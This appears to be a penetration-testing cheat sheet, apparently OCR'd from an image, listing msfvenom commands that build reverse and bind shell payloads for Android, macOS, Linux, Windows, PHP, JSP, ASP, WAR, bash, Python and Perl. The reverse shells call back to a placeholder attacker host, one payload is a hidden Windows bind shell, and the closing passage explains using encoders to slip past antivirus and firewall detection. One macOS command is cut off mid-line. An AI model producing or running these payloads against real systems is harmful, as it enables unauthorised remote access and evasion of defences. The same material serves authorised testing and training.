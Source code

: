 # Reverse HTTP  
$ msfvenom -p android/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4545 R > shell.apk  
  
# Reverse HTTPS  
$ msfvenom -p android/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=4545 R > shell.apk  
macOS Reverse Shells  
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f macho > shell.macho  
  
# Reverse TCP Shellcode  
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f < platform  
Meterpreter Bind Shells  
Linux Bind Shell  
# x86 (multi stage)  
$ msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=12.12.12.12 LPORT=4545 -f elf > shell.elf  
  
# x64 (single stage)  
$ msfvenom -p linux/x64/shell_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f elf > shell.elf  
Windows Bind Shell  
$ msfvenom -p windows/meterpreter/bind_tcp RHOST=12.12.12.12 LPORT=4545 -f exe > bind.exe  
  
# Hidden Bind TCP Payload  
$ msfvenom -p windows/shell_hidden_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f exe > hidden_shell.exe  
macOS Bind Shell  
$ msfvenom -p osx/x86/shell_bind_tcp RHOST=12.12.12.12 LPORT=4545 -f macho > shell.macho  
Meterpreter Web Payloads  
PHP Meterpreter Reverse Shells  
$ msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4545 -f raw > shell.php  
  
# PHP Meterpreter Reverse TCP  
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f raw > shell.php  
$ cat shell.php | pbcopy && echo ‘<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php  
Java JSP Meterpreter Reverse TCP  
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f raw > shell.jsp  
ASP Meterpreter Reverse TCP  
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f asp > shell.asp  
WAR Payload Shells  
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f war > shell.war  
Scripting Payloads  
Bash Unix Reverse Shell  
$ msfvenom -p cmd/unix/reverse_bash LHOST=10.10.10.10 LPORT=4545 -f raw > shell.sh  
Python Reverse Shell  
$ msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=4545 -f raw > shell.py  
Perl Unix Reverse shell  
$ msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4545 -f raw > shell.pl  
WAF and Antivirus Detection(AV) Bypass using MSFVenom Encoders  
The normal MSFVenom generated payloads can be easily detectable by most of the antivirus software or firewalls. MSFVenom provides one functionality called, Encoders which can be used to bypass some of them Firewalls and Antivirus software. You can take advantage of some of them for AV bypass and WAF bypass. Use -e flag to use the same with any encoder name. Encoder types are also described in the below section.  
  